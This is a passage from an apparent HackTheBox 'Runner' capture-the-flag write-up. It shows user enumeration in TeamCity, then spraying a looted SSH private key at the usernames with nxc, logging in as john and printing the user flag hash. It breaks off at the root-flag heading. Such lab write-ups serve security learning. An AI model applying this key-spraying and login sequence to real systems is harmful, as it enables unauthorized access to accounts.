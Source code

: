 Check the list of users from **teamcity**

> http://teamcity.runner.htb/admin/admin.html?item=users

![](/assets/obsidian/ba6bbd9e7596ef8d8b6e117b342ae0ed.png)

Usernames that belong to `runner.htb` are :

> `users_teamcity.lst`

```bash
john
matthew
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ nxc ssh $(pt get rhost) -u users_teamcity.lst -p '' --key-file loot/id_rsa --continue-on-success
SSH         10.10.11.13     22     runner.htb       [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.6
SSH         10.10.11.13     22     runner.htb       [+] john: (keyfile: loot/id_rsa)  (non root) Linux - Shell access!
SSH         10.10.11.13     22     runner.htb       [-] matthew: q must be exactly 160, 224, or 256 bits long
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ ssh -i loot/id_rsa john@$(pt get rhost)
Warning: Permanently added 'runner.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)
[...]
john@runner:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
john@runner:~$ cat user.txt
829319b69cfb36ab7310160548c5c9a4
```

# Root Flag
---
